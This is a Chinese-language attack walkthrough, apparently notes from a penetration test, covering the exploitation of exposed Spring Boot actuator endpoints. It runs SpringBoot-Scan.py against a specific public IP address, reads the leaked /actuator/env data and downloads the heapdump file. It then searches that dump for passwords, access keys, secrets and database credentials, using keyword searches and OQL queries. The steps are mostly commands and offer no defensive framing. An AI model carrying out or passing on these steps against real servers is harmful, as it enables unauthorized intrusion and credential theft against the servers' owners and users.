







使用SpringBoot-Scan.py工具：

```
python SpringBoot-Scan.py -u http://121.40.242.95:9002/
```

-u是信息泄露 -v可以探测漏洞


扫描结果：



访问第一个：



可以看到是一些接口的泄露，访问这个：

```
http://121.40.242.95:9002/actuator/env
```

泄露一些信息，比如，是Linux服务器：



一般遇到这个就去找 heapdump 这是一个转储文件（类似于一个垃圾站） 在java里这是一个FULL的类，里面会存放username password sa root 数据库用户密码 secret（加密方式） path url



访问这个地址 会下载一个叫heapdump的文件，

还可以：

这个springbootscan能自动下载：

```
python SpringBoot-Scan.py -d http://121.40.242.95:9002
```

把下载好的heapdump文件放到heapdump（工具）文件夹内



选择1：



输入keyword搜索，可以输入user、password、accesskey、name、systemproperties、allproperties、hashtable 、code（代码）、vertification（验证码接口）、vertify（验证码）、phone（手机号）、login（登录框）、register（注册地址）、database、root、url等

还可以输入sql语句查询密码：

```
Select * from byte[] s where toString(s) like ".*password.*"

Select * from char[] s where toString(s) like ".*password.*"

Select * from java.lang.String s where toString(s) like ".*password.*"
```

